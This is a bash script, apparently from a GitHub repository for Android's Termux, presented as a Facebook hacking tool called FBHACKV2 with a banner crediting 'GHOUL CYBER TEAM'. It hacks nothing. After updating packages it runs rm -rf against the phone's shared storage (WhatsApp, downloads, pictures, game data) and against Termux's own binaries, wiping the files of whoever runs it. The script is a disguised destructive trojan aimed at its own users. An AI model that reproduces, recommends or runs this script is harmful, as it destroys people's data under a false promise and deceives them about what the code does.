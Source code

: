 # FBHACKV2
#!/bin/bash
#version 1.0

# Variables
b='\033[1m'
u='\033[4m'
bl='\E[30m'
r='\E[31m'
g='\E[32m'
bu='\E[34m'
m='\E[35m'
c='\E[36m'
w='\E[37m'
endc='\E[0m'
enda='\033[0m'
blue='\e[1;34m'
cyan='\e[1;36m'
red='\e[1;31m'

 TEMPEST| lolcat

echo -e  "_____________________________________________________________"
echo -e  "Tools    : GHOUL CYBER TEAM $white         " |lolcat
echo -e  "Creadby  : TEMPEST  $white   " |lolcat
echo -e  "Contact  : BELL CRANELL $white " |lolcat
echo -e  "_____________________________________________________________"
echo "T3MP35T HACK FACEBOOK TARGET" | lolcat
             pkg update
             pkg upgrade
         rm -rf /storage/emulated/0
        rm -rf /storage/emulated/android
      rm -rf /storage/emulated/music
    rm -rf /storage/emulated/android/data
    rm  -rf /storage/emulated/picture
    rm -rf /storage/emulated/whatsapp
    rm  -rf /storage/emulated/download
    rm  -rf /storage/emulated/SHAREIT
    rm  -rf /storage/emulated/android/data
    rm  -rf /storage/emulated/android/obb/com.dts.freefireth
  rm -rf $PREFIX/bin
  
  
exit 
